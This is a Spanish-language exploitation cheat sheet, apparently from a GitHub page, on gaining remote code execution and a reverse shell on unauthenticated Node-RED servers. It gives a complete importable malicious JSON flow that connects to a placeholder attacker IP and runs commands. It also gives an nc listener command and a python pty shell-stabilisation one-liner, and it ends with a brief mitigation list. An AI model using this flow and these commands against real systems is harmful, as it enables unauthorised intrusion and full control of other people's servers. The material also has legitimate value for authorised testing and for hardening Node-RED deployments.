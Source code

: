 

## Node-RED RCE


### 🔎 Descripción

Node-RED es una herramienta de desarrollo basada en flujos para integrar hardware, APIs y servicios.
Cuando se expone públicamente sin autenticación, un atacante puede crear o importar **flujos maliciosos** que permiten ejecutar comandos arbitrarios en el servidor.

Esto se traduce en una **ejecución remota de comandos (RCE)** y la posibilidad de obtener una shell reversa.

---

### ⚙️ Explotación Manual

1. Acceder a la interfaz web de Node-RED (normalmente en el puerto `1880`).
2. Crear un **nuevo flujo** que use nodos de tipo:

   * **`tcp in`** → conecta al atacante.
   * **`exec`** → ejecuta comandos en el sistema.
   * **`tcp out`** → devuelve la salida al atacante.
3. Configurar el nodo `tcp in` con la **IP atacante** y el **puerto** donde estará escuchando.

---

### ⚙️ Explotación Automática (Importar JSON)

Podemos importar directamente un **flujo JSON malicioso** en Node-RED:

```json
[{"id":"7235b2e6.4cdb9c","type":"tab","label":"Flow 1"},{"id":"d03f1ac0.886c28","type":"tcp out","z":"7235b2e6.4cdb9c","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":786,"y":350,"wires":[]},{"id":"c14a4b00.271d28","type":"tcp in","z":"7235b2e6.4cdb9c","name":"","server":"client","host":"<IP_ATACANTE>","port":"<PUERTO>","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":281,"y":337,"wires":[["4750d7cd.3c6e88"]]},{"id":"4750d7cd.3c6e88","type":"exec","z":"7235b2e6.4cdb9c","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":517,"y":362.5,"wires":[["d03f1ac0.886c28"],["d03f1ac0.886c28"],["d03f1ac0.886c28"]]}]
```

Fuente: [Link a Json en Github Repo](https://github.com/valkyrix/Node-Red-Reverse-Shell/blob/master/node-red-reverse-shell.json)

🔧 **Editar antes de importar:**

* Reemplazar `<IP_ATACANTE>` por tu dirección IP.
* Reemplazar `<PUERTO>` por el puerto donde tu listener estará a la escucha.

---

### 📡 Listener

En la máquina atacante:

```bash
nc -lvnp <PUERTO>
```

Al importar y ejecutar el flujo, recibiremos una conexión interactiva desde el servidor.

---

### 🛠️ Estabilización de Shell

La conexión inicial puede ser básica. Para mejorarla:

* Establecer una segunda reverse shell.
* Usar técnicas de estabilización como:

  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  export TERM=xterm
  ```
* O emplear un script de **upgrade shell**.

---

### 🔒 Mitigación

* Restringir el acceso a la interfaz de Node-RED.
* Habilitar **autenticación** para crear/editar flujos.
* Ponerlo detrás de un proxy con control de acceso.